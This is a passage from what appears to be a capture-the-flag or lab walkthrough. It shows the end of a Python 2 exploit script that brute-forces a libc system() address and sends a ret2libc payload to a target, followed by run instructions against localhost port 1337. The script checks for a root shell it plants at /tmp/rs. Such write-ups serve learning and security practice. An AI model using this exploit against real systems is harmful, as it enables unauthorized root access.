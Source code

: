 ```python
						s.close()
						return result
	except Exception, err:
				print Exception, err

def getMoney():
	while True:
		system_addr=q.get()
		ownage(system_addr)
	q.task_done()

def ownage(_system):
			print "[+] Trying address " + _system[0].encode("hex")
			tmplog = "\x60\x8c\x04\x08" #0x08048c60
			ret2libc = _system[0] + "JUNK" + tmplog		
			payload = filepayload + ret2libc
			sendRequest(target, port, payload)
			if os.path.isfile("/tmp/rs"):
				print "[!] Root shell created, run /tmp/rs ;)"
				thread.interrupt_main()

if len(sys.argv) < 2:
	print "[-] usage: python get_canary.py [ip] [port]"
	exit(0)
else:
	target = sys.argv[1]
	port = int(sys.argv[2])
	q=Queue(concurrent*2)
	for i in range(concurrent):
		t=Thread(target=getMoney)
		t.daemon=True
		t.start()
	try:
		for addr_byte1 in xrange(256):
			for addr_byte2 in xrange(256):
				_system = chr(addr_byte1) + chr(addr_byte2) + "\x16\x00"
				q.put([_system])
		q.join()
	except KeyboardInterrupt:
		exit(1)
```

Please note the addresses will be printed backwards. We save the file to
/tmp/exploit/exploit.py with nano and run **python exploit.py 127.0.0.1 1337**

![wopr-brute-force-local.png](/assets/img/wopr/wopr-brute-force-local.png)
